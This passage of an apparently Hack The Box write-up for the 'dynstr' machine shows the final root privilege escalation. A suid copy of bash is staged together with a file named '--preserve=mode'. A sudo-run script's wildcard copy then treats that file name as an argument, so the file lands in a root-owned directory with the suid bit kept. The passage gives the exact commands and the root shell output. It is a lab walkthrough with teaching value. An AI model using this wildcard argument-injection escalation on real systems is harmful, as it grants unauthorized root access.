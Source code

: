 ```
bindmgr@dynstr:~$ cat /etc/bind/named.bindmgr/.version
42
```

We echo a version number higher than this in a .version file. Next we copy a binary which we want to set the suid bit on to our directory, we will use bash this time. Afterwards we set the suid bit on it and create a file with the name `--preserve=mode`.
Because of the wildcard this file will be interpreted as a command line argument and allow us to keep the permissions set on our binary.

```js
bindmgr@dynstr:/dev/shm$ echo 9001 > .version
bindmgr@dynstr:/dev/shm$ cp /bin/bash .
bindmgr@dynstr:/dev/shm$ chmod +s bash
bindmgr@dynstr:/dev/shm$ touch -- --preserve=mode
```

Now we execute the script as root and `bash` gets copied to the `/etc/bind/named.bindmgr/` directory, now owned by root and with the suid bit still set.

```js
bindmgr@dynstr:/dev/shm$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors:
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
    /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
```

We can now simply run it, get dropped in a rootshell and add the root flag to our collection.

```js
bindmgr@dynstr:/dev/shm$ /etc/bind/named.bindmgr/bash -p
bash-5.0# id
uid=1001(bindmgr) gid=1001(bindmgr) euid=0(root) egid=117(bind) groups=117(bind),1001(bindmgr)
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```

